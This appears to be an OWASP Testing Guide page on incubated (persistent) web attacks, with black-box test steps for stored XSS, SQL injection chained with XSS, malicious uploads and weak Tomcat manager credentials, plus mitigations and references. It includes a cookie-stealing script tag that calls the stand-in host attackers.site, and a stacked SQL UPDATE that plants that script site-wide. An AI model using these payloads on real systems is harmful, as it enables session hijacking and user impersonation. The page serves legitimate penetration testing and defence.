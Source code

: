 ## Summary

Also often refered to as persistent attacks, incubated testing is a
complex testing method that needs more than one data validation
vulnerability to work. Incubated vulnerabilities are typically used to
conduct "watering hole" attacks against users of legitimate web
applications.

Incubated vulnerabilities have the following characteristics:

  - The attack vector needs to be persisted in the first place, it needs
    to be stored in the persistence layer, and this would only occur if
    weak data validation was present or the data arrived into the system
    via another channel such as an admin console or directly via a
    backend batch process.
  - Secondly, once the attack vector was "recalled" the vector would
    need to be executed successfully. For example, an incubated XSS
    attack would require weak output validation so the script would be
    delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a
web application, will allow an attacker to plant a piece of data that
will later be retrieved by an unsuspecting user or other component of
the system, exploiting some vulnerability there.

In a penetration test, **incubated attacks** can be used to assess the
criticality of certain bugs, using the particular security issue found
to build a client-side based attack that usually will be used to target
a large number of victims at the same time (i.e. all users browsing the
site).

This type of asynchronous attack covers a great spectrum of attack
vectors, among them the following:

  - File upload components in a web application, allowing the attacker
    to upload corrupted media files (jpg images exploiting
    CVE-2004-0200, png images exploiting CVE-2004-0597, executable
    files, site pages with active component, etc.)

<!-- end list -->

  - Cross-site scripting issues in public forums posts (see [Testing for
    Stored Cross_site scripting
    (OTG-INPVAL-002)](Testing_for_Stored_Cross_site_scripting_\(OTG-INPVAL-002\) "wikilink")
    for additional details). An attacker could potentially store
    malicious scripts or code in a repository in the backend of the
    web-application (e.g., a database) so that this script/code gets
    executed by one of the users (end users, administrators, etc). The
    archetypical incubated attack is exemplified by using a cross-site
    scripting vulnerability in a user forum, bulletin board, or blog in
    order to inject some JavaScript code at the vulnerable page, and
    will be eventually rendered and executed at the site user's browser
    --using the trust level of the original (vulnerable) site at the
    user's browser.

<!-- end list -->

  - SQL/XPATH Injection allowing the attacker to upload content to a
    database, which will be later retrieved as part of the active
    content in a web page. For example, if the attacker can post
    arbitrary JavaScript in a bulletin board so that it gets executed by
    users, then he might take control of their browsers (e.g.,
    [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).

<!-- end list -->

  - Misconfigured servers allowing installation of Java packages or
    similar web site components (i.e. Tomcat, or web hosting consoles
    such as Plesk, CPanel, Helm, etc.)

## How to Test

### Black Box testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the
resultant URL for the uploaded file. Upload a file that will exploit a
component in the local user workstation when viewed or downloaded by the
user. Send your victim an email or other kind of alert in order to lead
him/her to browse the page. The expected result is the exploit will be
triggered when the user browses the resultant page or downloads and
executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1\. Introduce *JavaScript* code as the value for the vulnerable field,
for instance:

`<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
`  `

2\. Direct users to browse the vulnerable page or wait for the users to
browse it. Have a "listener" at *attackers.site* host listening for all
incoming connections.

3\. When users browse the vulnerable page, a request containing their
cookie (*document.cookie* is included as part of the requested URL) will
be sent to the *attackers.site* host, such as the following:

` - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;`
`     %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;`
`     TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1`

4\. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a
SQL-injection vulnerability. The first thing to test is whether the
target site has a SQL injection vulnerability. This is described in
Section 4.2 [Testing for SQL
Injection](Testing_for_SQL_Injection_\(OTG-INPVAL-006\) "wikilink"). For
each SQL-injection vulnerability, there is an underlying set of
constraints describing the kind of queries that the attacker/pen-tester
is allowed to do.

The tester then has to match the XSS attacks he has devised with the
entries that he is allowed to insert.

1\. In a similar fashion as in the previous XSS example, use a web page
field vulnerable to SQL injection issues to change a value in the
database that would be used by the application as input to be shown at
the site without proper filtering (this would be a combination of an SQL
injection and a XSS issue). For instance, let's suppose there is a
*footer* table at the database with all footers for the web site pages,
including a *notice* field with the legal notice that appears at the
bottom of each web page. You could use the following query to inject
JavaScript code to the *notice* field at the *footer* table in the
database.

` SELECT field1, field2, field3`
`  FROM table_x`
`  WHERE field2 = 'x';`
`     UPDATE footer`
`     SET notice = 'Copyright 1999-2030%20`
`         <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'`
`     WHERE notice = 'Copyright 1999-2030';`

2\. Now, each user browsing the site will silently send his cookies to
the *attackers.site* (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an
attacker to upload active components of her choice to the site. This
could be the case with an Apache Tomcat server that doesn’t enforce
strong credentials to access its Web Application Manager (or if the pen
testers have been able to obtain valid credentials for the
administration module by other means).

In this case, a WAR file can be uploaded and a new web application
deployed at the site, which will not only allow the pen tester to
execute code of her choice locally at the server, but also to plant an
application at the trusted site, which the site regular users can then
access (most probably with a higher degree of trust than when accessing
a different site).

As should also be obvious, the ability to change web page contents at
the server, via any vulnerabilities that may be exploitable at the host
which will give the attacker webroot write permissions, will also be
useful towards planting such an incubated attack on the web server pages
(actually, this is a known infection-spread method for some web server
worms).

### Gray Box testing

Gray/white testing techniques will be the same as previously discussed.

  - Examining input validation is key in mitigating against this
    vulnerability. If other systems in the enterprise use the same
    persistence layer they may have weak input validation and the data
    may be persisited via a "back door".

<!-- end list -->

  - To combat the "back door" issue for client side attacks, output
    validation must also be employed so tainted data shall be encoded
    prior to displaying to the client, and hence not execute.

<!-- end list -->

  - See the [Data
    Validation](Data_Validation_%28Code_Review%29#Data_validation_strategy "wikilink")
    section of the Code review guide.

## Tools

  - XSS-proxy - <http://sourceforge.net/projects/xss-proxy>
  - Paros - <http://www.parosproxy.org/index.shtml>
  - Burp Suite - <http://portswigger.net/burp/proxy.html>
  - Metasploit - <http://www.metasploit.com/>

## References

Most of the references from the Cross-site scripting section are valid.
As explained above, incubated attacks are executed when combining
exploits such as XSS or SQL-injection attacks.

**Advisories**

  - CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client
    Web Requests - <http://www.cert.org/advisories/CA-2000-02.html>
  - Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site
    scripting vulnerability -
    <http://lists.grok.org.uk/pipermail/full-disclosure/2006-July/048059.html>

**Whitepapers**

  - Web Application Security Consortium "Threat Classification,
    Cross-site scripting" -
    <http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml>